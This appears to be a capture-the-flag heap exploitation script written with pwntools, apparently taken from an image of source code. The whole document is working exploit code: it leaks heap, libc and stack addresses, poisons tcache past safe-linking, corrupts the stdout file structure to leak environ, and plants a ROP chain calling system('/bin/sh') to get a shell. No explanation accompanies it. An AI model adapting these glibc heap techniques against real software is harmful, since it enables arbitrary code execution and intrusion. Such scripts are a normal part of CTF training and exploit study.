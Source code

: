 ```plain
ru('and this line will make the game easier\n')

heap_base=int(r(14),16)-0x2a0
leak('heap_base ',heap_base)

add(0x418,p64(0)+p64(0x1880)+p64(heap_base+0x2c0)+p64(heap_base+0x2c0))
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x418,'aaaa')
add(0x418,'aaaa')
add(0x4f8,'bbbb')
add(0x4f8,'bbbb')

edit(5,0x418,'a'*0x410+p64(0x1880))
delete(6)

add(0x408,'cccc')
add(0x488,'cccc')
add(0x488,'cccc')
delete(8)
add(0x498,'dddd')
show(1)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ff0f0-0x20

leak('libc_base ',libc_base)

stdout = libc_base + libc.sym['_IO_2_1_stdout_']
environ = libc_base + libc.sym['_environ']

delete(2)
delete(3)

pl='a'*0x380+p64(0)+p64(0x411)+p64((heap_base+0x10)^(heap_base>>12))
edit(9,0x400,pl)
sl('')
add(0x408,'aaaa')
pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stdout)
add(0x408,pl)

pl=p64(0xfbad1800) + p64(0)*3 + p64(environ) + p64(environ+8)*4
add(0x408,pl)

ru('\n')
stack=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x120
leak('stack ',stack)

pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stack-0x8)
edit(3,0x408,pl)

pop_rdi = libc_base + 0x0000000000028715
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.sym['system']
ret  = libc_base + 0x0000000000026a3e
sl('1')

pl= p64(0)+ p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
add(0x400,pl)

menu(5)

itr()
```
